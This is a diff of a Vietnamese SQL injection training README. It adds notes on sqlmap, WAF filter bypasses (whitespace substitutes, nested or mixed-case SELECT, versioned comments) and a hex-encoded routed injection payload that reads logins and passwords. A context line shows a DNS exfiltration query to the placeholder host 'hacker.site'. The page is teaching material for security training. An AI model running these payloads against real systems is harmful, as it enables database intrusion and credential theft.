

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task2/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/task2/README.md
+++ b/task2/README.md
@@ -129,6 +129,24 @@ Trường hợp này không thể nhìn thấy kết quả truy vấn lỗi như
  select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
  ```
 
+### Khai thác tự động
+Sử dụng sqlmap, sử dụng các wordlists về payload để brute-force...
+### Thêm ...
+#### filter spaces
+Sử dụng  %0a, %0b, %0c, %0d, %09, %a0 để thay thế space ` `.
+#### filter SELECT...
+Trong trường hợp bị thay thế SELECT với null, có thể dùng từ lồng nhau như `SESELECTLECT` ...
+#### case matching
+Trong SQL không phân biệt chữ hoa thường có thể dùng sEleCT để `bypass`
+#### regular matching
+Khi filter regex `\bselect\b` có thể dùng `/*!50000select*/`
+#### replaced single or double quotation marks, forgot the backslash
+#### Routed SQL injection
+Là trường hợp trong truy vấn có thể không phải là truy vấn đầu vào.
+```
+#Hex of: -1' union select login,password from users--
+-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 --
+```
 
 
 
````
